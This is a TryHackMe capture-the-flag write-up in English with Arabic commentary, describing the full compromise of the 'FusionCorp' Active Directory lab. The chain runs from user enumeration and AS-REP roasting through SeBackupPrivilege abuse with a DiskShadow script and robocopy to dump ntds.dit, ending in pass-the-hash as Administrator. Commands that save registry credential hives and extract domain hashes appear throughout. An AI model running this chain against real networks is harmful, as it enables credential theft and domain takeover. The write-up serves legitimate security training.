# TryHackMe — FusionCorp Writeup

**Difficulty:** Hard  
**Category:** Active Directory  
**Author:** Poula Atef | 0xD33B

---

## 1. Reconnaissance

Started with a full port scan to identify open services and confirm the target type.

```bash
nmap 10.67.152.107 -sV -sS -sCV -T4
```



Key findings:

- Port 53 → DNS
- Port 80 → HTTP (Microsoft IIS 10.0)
- Port 88 → Kerberos
- Port 389/3268 → LDAP — Domain: `fusion.corp`
- Port 3389 → RDP
- Hostname: `FUSION-DC` → Domain Controller confirmed

> من الـ nmap على طول واضح إننا قدام Domain Controller — الـ hostname نفسه FUSION-DC والـ Kerberos على 88 والـ LDAP بيقولك fusion.corp. مش محتاج تفكر كتير.

---

## 2. Web Enumeration

Port 80 was open, so we ran a directory brute-force to discover hidden content.

```bash
gobuster dir -u http://10.67.152.107 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```



Discovered directories:

```
/backup   (Status: 301)
/css      (Status: 301)
/img      (Status: 301)
/js       (Status: 301)
```

The `/backup` directory stood out — navigating to it revealed a file named `employees.ods`.




The spreadsheet contained full employee names and their corresponding usernames.

> لقينا `/backup` من الـ gobuster — دخلنا عليها لقينا ملف spreadsheet فيه أسماء ويوزرنيمز كل موظفين الشركة. ملف زي ده بيوفر علينا enumeration كتير علشان نلاقي valid users .

---

## 3. Username Enumeration

Extracted usernames from the spreadsheet and validated them against the domain using two methods.

```bash
nxc smb 10.67.152.107 -u emp_names -p ''
kerbrute userenum --dc 10.67.152.107 -d fusion.corp emp_names
```



Result: `lparker@fusion.corp` returned as a **valid username**.

> أخدنا الأسماء من الملف وجربناهم — kerbrute أكد إن `lparker` valid user على الـ domain. 

---

## 4. ASREPRoasting

`lparker` had `Do not require Kerberos preauthentication` enabled. This means we can request a TGT from the KDC without knowing the password — the KDC responds with an AS-REP encrypted with the user's password hash, which we can crack offline.

```bash
impacket-GetNPUsers -dc-ip 10.67.152.107 fusion.corp/lparker -no-pass
```



Received a `$krb5asrep$23$` hash. Cracked it with hashcat:

```bash
hashcat -m 18200 lparker_hash /usr/share/wordlists/rockyou.txt
```



Successfully cracked — credentials obtained for `lparker`. ✅

> لقينا إن `lparker` مش محتاج Kerberos Pre-Authentication — يعني الـ KDC هيديني hash بتاعه من غير ما أعرف الباسورد. طلبنا الـ hash وكسرناه بـ hashcat وجبنا الباسورد.

---

## 5. SMB Enumeration & Credential Discovery

With `lparker`'s credentials, we enumerated domain users and inspected their description fields.

```bash
nxc smb 10.67.152.107 -u lparker -p '[REDACTED]' --users
```



Found `jmurphy`'s password stored in plaintext inside their **description field**.

> الـ admin حط الباسورد بتاع `jmurphy` في الـ description field — أي حد عنده read access على الـ LDAP يقدر يشوفها.

---

## 6. Initial Access

Logged in using both sets of credentials via Evil-WinRM to retrieve the first two flags.

```bash
evil-winrm -i 10.67.152.107 -u lparker -p '[REDACTED]'
```



**Flag 1** ✅

```bash
evil-winrm -i 10.67.152.107 -u jmurphy -p '[REDACTED]'
```



**Flag 2** ✅

> دخلنا بالاتنين وجبنا الـ flags. دلوقتي وقت نشوف إيه اللي بيميّز `jmurphy`.

---

## 7. BloodHound Enumeration

Ran BloodHound to map the domain and identify privilege escalation paths.

```bash
bloodhound-python -u lparker -p '[REDACTED]' -d fusion.corp \
    -ns 10.67.152.107 -c all --zip
```



BloodHound collected domain data (6 users, 52 groups, 2 GPOs) but showed no direct path from `lparker` or `jmurphy` to Domain Admin.

During manual enumeration, we checked for Kerberos delegation misconfigurations:

```bash
impacket-findDelegation -dc-ip 10.67.152.107 fusion.corp/lparker:'[REDACTED]'
```



`FUSION-DC$` showed Unconstrained Delegation — however, this is the **default behavior for all Domain Controllers** in Windows and is not exploitable on its own. To abuse it, you would need a second machine with Unconstrained Delegation that is not a DC, which did not exist here.

This was a dead end. The actual escalation path was already in our hands — `jmurphy`'s group membership.

> شغّلنا BloodHound نعمل map للـ domain كامل — جمع بيانات كتير بس ملقاش path واضح من أي يوزر للـ Domain Admin. جربنا كمان ندور على Kerberos Delegation — لقينا Unconstrained Delegation على FUSION-DC$ بس ده default على كل Domain Controller في Windows ومش ثغرة لوحدها.  الـ path الحقيقي كان في الـ privileges بتاعة `jmurphy`.

---

## 8. Privilege Escalation — SeBackupPrivilege

Checked `jmurphy`'s privileges after logging in.

```bash
whoami /priv
whoami /groups
```



Critical findings:

| Privilege          | State   |
| ------------------ | ------- |
| SeBackupPrivilege  | Enabled |
| SeRestorePrivilege | Enabled |

Group: `BUILTIN\Backup Operators`

`SeBackupPrivilege` allows reading any file on the system regardless of ACL permissions — exactly what we need to access `ntds.dit`.

As a first step, we saved the SAM and SYSTEM hives. The SYSTEM hive contains the **boot key (SysKey)** — without it, any extracted hashes cannot be decrypted.

```bash
reg save HKLM\SAM C:\Windows\Temp\sam
reg save HKLM\SYSTEM C:\Windows\Temp\system
```



```bash
download sam
download system
```



```bash
impacket-secretsdump -sam sam -system system LOCAL
```



SAM only contains local machine accounts — not the domain accounts we need. However, the `SYSTEM` hive will be reused later to decrypt `ntds.dit`.

> `jmurphy` عنده SeBackupPrivilege — الـ privilege ده بيخليك تقرأ أي ملف على الـ system حتى لو الـ ACL مش بتسمحلك. أول حاجة عملناها إننا حفظنا الـ SYSTEM hive — ده فيه الـ boot key اللي بنفك بيه أي هاشات. الـ SAM طلع local users بس — مش ده اللي بندور عليه، بس الـ SYSTEM هنحتاجه بعدين عشان نفك الـ ntds.

---

#### 9. Domain Compromise — NTDS Extraction

### Why ntds.dit?

`ntds.dit` is the Active Directory database file located at `C:\Windows\NTDS\ntds.dit`. It stores the password hashes of **every single account in the domain** — not just local users like SAM, but every domain user, service account, and the `krbtgt` account itself.

Whoever has these hashes owns the domain.

> ليه ntds.dit بالظبط؟ لأنه قاعدة بيانات الـ Active Directory كاملة — فيها هاشات كل أكونت في الـ domain كله. مش زي الـ SAM اللي فيه local users بس. اللي بياخد ntds.dit بياخد الـ domain كله.

---

### Why Can't We Just Copy It Directly?

Windows keeps `ntds.dit` exclusively locked by the **NTDS service (Active Directory)** at all times. Any attempt to copy it while the system is running returns an error:

```
The process cannot access the file because it is being used by another process.
```

Even with `SeBackupPrivilege`, a direct copy attempt fails because the lock is at the OS level, not the ACL level.

> ليه مش بنعمل copy مباشرة؟ لأن Windows نفسه شايل الملف ده مفتوح طول الوقت — الـ Active Directory service مش بيسيبه. حتى لو عندك SeBackupPrivilege، الـ lock ده مش في الـ ACL، ده في الـ OS نفسه.

---

### The Solution: VSS Shadow Copy

VSS (Volume Shadow Copy Service) takes a **frozen point-in-time snapshot** of the entire drive. The snapshot is a read-only clone of `C:` at the exact moment it was created — and in that clone, `ntds.dit` is not locked by any running service.

```
Live C: drive  →  ntds.dit is LOCKED (NTDS service holds it)
VSS Snapshot   →  ntds.dit is FREE  (snapshot is frozen, no services running on it)
```

> VSS بيعمل "نسخه" من الـ C: drive كاملة في لحظة معينة — النسخه دي snapshot، يعني مفيش service شايل فيها أي ملف. ntds.dit في الصورة دي حر تماماً نقدر ننسخه.

### ### Step 1 — Create the DiskShadow Script

`DiskShadow.exe` is a Microsoft-signed tool built into Windows Server that automates VSS operations via a script file.

bash

```bash
# On Kali — create the script
nano hash_dump.dsh
```

```
set context persistent nowriters
set metadata c:\Windows\Temp\metadata.cab
set verbose on
add volume c: alias privesc
create
expose %privesc% x:
```

Line-by-line:

| Line                               | What it does                                            |
| ---------------------------------- | ------------------------------------------------------- |
| `set context persistent nowriters` | Create a persistent snapshot, skip VSS writers (faster) |
| `set metadata ...metadata.cab`     | Save snapshot metadata to a file                        |
| `set verbose on`                   | Show detailed output during execution                   |
| `add volume c: alias privesc`      | Target the C: drive, name the snapshot "privesc"        |
| `create`                           | Take the snapshot now                                   |
| `expose %privesc% x:`              | Mount the snapshot as drive X:                          |

```bash
# Convert line endings to Windows format (CRLF) — required for DiskShadow
unix2dos hash_dump.dsh
```



عملنا script بيقول لـ DiskShadow خطوة خطوة: خد snapshot من C:، سميه privesc، وافتحه كـ X: . الـ unix2dos ضروري لأن Windows بيقرأ CRLF مش LF — لو نسيته الـ script مش هيشتغل.

### Step 2 — Upload and Execute

```bash
# Upload the script via Evil-WinRM
upload hash_dump.dsh

# Execute DiskShadow with the script
diskshadow /s hash_dump.dsh
```



DiskShadow successfully created the snapshot and exposed it as `X:\`. The output confirms:

- Shadow copy created with a unique ID
- Snapshot mounted at `X:\`

> رفعنا الـ script وشغّلناه — DiskShadow عمل الـ snapshot ووصّله كـ X:. دلوقتي عندنا snapshot من الـ C: drive كاملة على X: وntds.dit جوّاها حر.

### Step 3 — Copy ntds.dit Using Backup Mode

```bash
robocopy /b x:\windows\ntds . ntds.dit
```



The `/b` flag tells robocopy to use **Backup semantics** — this is the mechanism that actually invokes `SeBackupPrivilege` during the copy. Without it, even though the file is unlocked in the snapshot, NTFS permissions on `ntds.dit` would still block a normal copy.

```
robocopy without /b  →  NTFS ACL blocks the copy
robocopy with /b     →  SeBackupPrivilege overrides the ACL → copy succeeds
```

> الـ `/b` ده اللي بيستغل SeBackupPrivilege فعلاً — بيقول للـ OS "أنا شغّال بـ Backup mode، تجاوز الـ ACL". من غيره حتى لو الملف مش locked، الـ NTFS permissions هتمنعك

### Step 4 — Download ntds.dit

```bash
download ntds.dit
```



> Verify the file size is correct
> 
> اتأكدنا إن الملف نزل كامل.

### Step 5 — Extract All Domain Hashes

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```



All domain hashes extracted — Administrator, krbtgt, and every domain user.

> استخدمنا الـ ntds.dit والـ SYSTEM اللي جبناه قبل كده — secretsdump فك التشفير وطلّع هاشات كل يوزر في الـ domain كامل.

### Step 6 — Pass-the-Hash as Domain Admin

```bash
evil-winrm -i 10.67.152.107 -u Administrator -H [REDACTED]
```



**Flag 3 — Domain Compromised** ✅

> عندنا NT hash بتاع الـ Administrator — مش محتاجين الباسورد. Pass-the-Hash بيخلينا ندخل مباشرة. Domain compromised.

---

## Attack Chain

```
nmap → gobuster → /backup → employees.ods
    → kerbrute → lparker valid
    → ASREPRoast → crack hash → lparker creds
    → nxc --users → jmurphy password in description
    → evil-winrm → Flag 1 & Flag 2
    → jmurphy → SeBackupPrivilege + Backup Operators
    → Shadow Copy → ntds.dit → secretsdump
    → All domain hashes → Pass-the-Hash → Domain Admin → Flag 3
```

---

## Tools Used

| Tool                 | Purpose               |
| -------------------- | --------------------- |
| nmap                 | Port scanning         |
| gobuster             | Directory enumeration |
| kerbrute             | Username validation   |
| impacket-GetNPUsers  | ASREPRoasting         |
| hashcat              | Hash cracking         |
| NetExec (nxc)        | SMB enumeration       |
| evil-winrm           | Remote shell          |
| bloodhound-python    | AD enumeration        |
| DiskShadow           | VSS snapshot creation |
| robocopy             | Backup-mode file copy |
| impacket-secretsdump | Hash extraction       |

---

*Room: TryHackMe — FusionCorp*  
*Profile: tryhackme.com/p/0xD33B*
